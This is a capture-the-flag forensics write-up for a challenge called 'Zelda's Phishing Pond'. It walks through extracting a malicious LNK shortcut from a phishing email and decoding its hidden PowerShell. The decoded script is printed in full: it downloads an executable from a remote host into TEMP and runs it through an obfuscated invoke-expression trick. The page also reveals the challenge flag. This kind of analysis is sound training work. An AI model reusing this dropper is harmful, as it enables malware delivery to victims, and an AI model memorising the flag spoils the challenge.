


# Zelda's Phishing Pond

| Key            | Value                                                                                          |
|----------------|------------------------------------------------------------------------------------------------|
| Challenge Name | Zelda's Phishing Pond                                                                          |
| Author         | warlocksmurf                                                                                   |
| Category       | Forensics                                                                                      |
| Description    | I received a beta test for the new Zelda game from a random company, I hope it's legitimate... |
| Challenge Type | Static                                                                                         |
| Flag           | sunctf{f4k3_L3gends_0f_lnk_and_Zelda_g4m3?!}                                                   |
| Score          | ???                                                                                            |

*File(s) in `attachments/` are distributed to the participants.*

## Solution

<details>
<summary>Click to expand</summary>

1) Extract a ZIP from the EML file

   

2) A LNK file can be extracted from the ZIP, exiftool/lnkinfo the LNK file to get an obfuscated script.

   ```
   └─$ exiftool installation.exe.lnk                                                     
   ExifTool Version Number         : 12.76
   File Name                       : installation.exe.lnk
   Directory                       : .
   File Size                       : 3.1 kB
   File Modification Date/Time     : 2024:09:07 00:41:29-04:00
   File Access Date/Time           : 2024:09:24 12:07:04-04:00
   File Inode Change Date/Time     : 2024:09:07 00:41:29-04:00
   File Permissions                : -rwxrwxrwx
   File Type                       : LNK
   File Type Extension             : lnk
   MIME Type                       : application/octet-stream
   Flags                           : IDList, RelativePath, CommandArgs, IconFile, Unicode, ExpIcon
   File Attributes                 : (none)
   Target File Size                : 0
   Icon Index                      : 2
   Run Window                      : Normal
   Hot Key                         : (none)
   Target File DOS Name            : powershell.exe
   Relative Path                   : ..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
   Command Line Arguments          : -window hidden -noni -enc V3JpdGUtSG9zdCAiVGhpcyBpcyBhIGxlZ2l0aW1hdGUgZ2FtZSBsb2wiOyRnYW1lPSdodHRwOi8vMTkyLjE2OC4xLjczOjQwNDAvYzNWdVkzUm1lMlknKycwYXpOZlRETm5aVzVrYzE4d1psOXNibXRmWVc1a1gxcGxiR1JoWDJjMGInKydUTSUyRklYMCUzRC9sZWdlbmRzLmV4ZSc7JHNraWJpZGk9J1NtdXJmVGVtcCc7JHNtdXJmeT1bU3lzdGVtLklPLlBhdGhdOjpDb21iaW5lKCRlbnY6VEVNUCwkc2tpYmlkaSk7aWYoLW5vdCAoVGVzdC1QYXRoICRzbXVyZnkpKXtOZXctSXRlbSAtUGF0aCAkc211cmZ5IC1JdGVtVHlwZSBEaXJlY3RvcnkgLUZvcmNlfTtpZihUZXN0LVBhdGggJHNtdXJmeSl7JHplbGRhPVtTeXN0ZW0uSU8uUGF0aF06OkNvbWJpbmUoJHNtdXJmeSwnbGVnZW5kcy5leGUnKTtJbnZva2UtV2ViUmVxdWVzdCAtVXJpICRnYW1lIC1PdXRGaWxlICR6ZWxkYTskc2hlbGxpZFsxXSskc2hlbGxpZFsxM10rJ3gnICR6ZWxkYX0K
   Icon File Name                  : C:\Windows\System32\shell32.dll
   ```

   ```
   └─$ echo "V3JpdGUtSG9zdCAiVGhpcyBpcyBhIGxlZ2l0aW1hdGUgZ2FtZSBsb2wiOyRnYW1lPSdodHRwOi8vMTkyLjE2OC4xLjczOjQwNDAvYzNWdVkzUm1lMlknKycwYXpOZlRETm5aVzVrYzE4d1psOXNibXRmWVc1a1gxcGxiR1JoWDJjMGInKydUTSUyRklYMCUzRC9sZWdlbmRzLmV4ZSc7JHNraWJpZGk9J1NtdXJmVGVtcCc7JHNtdXJmeT1bU3lzdGVtLklPLlBhdGhdOjpDb21iaW5lKCRlbnY6VEVNUCwkc2tpYmlkaSk7aWYoLW5vdCAoVGVzdC1QYXRoICRzbXVyZnkpKXtOZXctSXRlbSAtUGF0aCAkc211cmZ5IC1JdGVtVHlwZSBEaXJlY3RvcnkgLUZvcmNlfTtpZihUZXN0LVBhdGggJHNtdXJmeSl7JHplbGRhPVtTeXN0ZW0uSU8uUGF0aF06OkNvbWJpbmUoJHNtdXJmeSwnbGVnZW5kcy5leGUnKTtJbnZva2UtV2ViUmVxdWVzdCAtVXJpICRnYW1lIC1PdXRGaWxlICR6ZWxkYTskc2hlbGxpZFsxXSskc2hlbGxpZFsxM10rJ3gnICR6ZWxkYX0K" | base64 -d
   Write-Host "This is a legitimate game lol";$game='http://192.168.1.73:4040/c3VuY3Rme2Y'+'0azNfTDNnZW5kc18wZl9sbmtfYW5kX1plbGRhX2c0b'+'TM%2FIX0%3D/legends.exe';$skibidi='SmurfTemp';$smurfy=[System.IO.Path]::Combine($env:TEMP,$skibidi);if(-not (Test-Path $smurfy)){New-Item -Path $smurfy -ItemType Directory -Force};if(Test-Path $smurfy){$zelda=[System.IO.Path]::Combine($smurfy,'legends.exe');Invoke-WebRequest -Uri $game -OutFile $zelda;$shellid[1]+$shellid[13]+'x' $zelda}
   ```

3) Deobfuscate the command.

   

</details>
